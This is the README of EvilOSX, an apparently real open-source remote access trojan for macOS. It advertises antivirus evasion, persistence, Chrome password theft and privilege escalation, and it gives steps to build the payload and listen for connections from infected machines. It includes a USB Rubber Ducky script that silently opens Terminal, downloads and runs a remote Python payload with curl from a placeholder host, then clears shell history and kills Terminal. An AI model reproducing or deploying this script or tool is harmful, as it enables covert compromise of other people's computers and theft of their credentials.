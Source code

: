 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="https://i.imgur.com/qiAJP95.png" alt="EvilOSX" width="250"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">A pure python, post-exploitation, RAT (Remote Administration Tool) for macOS / OSX.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/badge/contributions-welcome-orange.svg">
  </a>
</p>

---

## Features

- Emulate a simple terminal instance
- Undetected by anti-virus (randomized hash, [HTTPS](https://en.wikipedia.org/wiki/HTTPS) communication)
- Multi-threaded
- No dependencies (pure python)
- Persistent
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/modules/template.py) system
- Retrieve Chrome passwords
- Attempt to get root via local privilege escalation
- Auto installer, simply run EvilOSX on your target and the rest is handled automatically.

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Build EvilOSX which runs on your target
$ python builder.py

# Start listening for connections
$ python Server.py

# Lastly, run the built EvilOSX on your target.
```
![](https://i.imgur.com/Ce0V8B4.png)
![](https://i.imgur.com/cWYn7mL.png)

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the keyboard VID&PID you are looking for.

## Issues

Feel free to submit any issues or feature requests.

## Credits

- Based on the awesome [EmpireProject](https://github.com/EmpireProject)
- [manwhoami](https://github.com/manwhoami) for his awesome projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
